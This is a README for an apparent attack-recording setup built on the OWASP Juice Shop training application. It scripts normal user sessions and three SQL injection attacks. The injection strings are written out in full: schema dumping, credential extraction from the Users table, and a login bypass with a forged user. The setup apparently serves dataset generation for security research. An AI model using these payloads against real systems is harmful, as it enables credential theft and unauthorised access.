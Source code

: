 # Juice shop 

## Overview:
[OWASP Web shop application](https://owasp.org/www-project-juice-shop/) with multiple vulnerabilities.

## Victim:
Modern web application with multiple vulnerabilities. Runs at port 3000, using provided docker for deployment.

## Normal:
User actions include:
        register -> new account for user
        login    -> login user
        shopping -> put random item in basket
                 -> leave feedback to product
        complain -> upload complaint file
        checkout -> set address, delivery method and payment details
User first registers, then logs in and chooses random between shopping, complaining and completing the checkout.

## Exploit:
Running debian10 with selenium user.
Multiple attacks possible (use as 4th parameter following name):
* SQLInjectionSchema
* SQLInjectionCred
* SQLInjectionUser

### SQL-Injection - SQL Schema
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

### SQL-Injection - Credentials
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--

### SQL-Injection - Non Existing User Login
Run malicious query as email while login:

        ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

## cli:

    sudo python3 main.py a b c d
    
    a: boolean (0/1) run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean (0/1) run automated exploit
    d: attack type (SQLInjectionSchema, SQLInjectionCred, SQLInjectionUser)
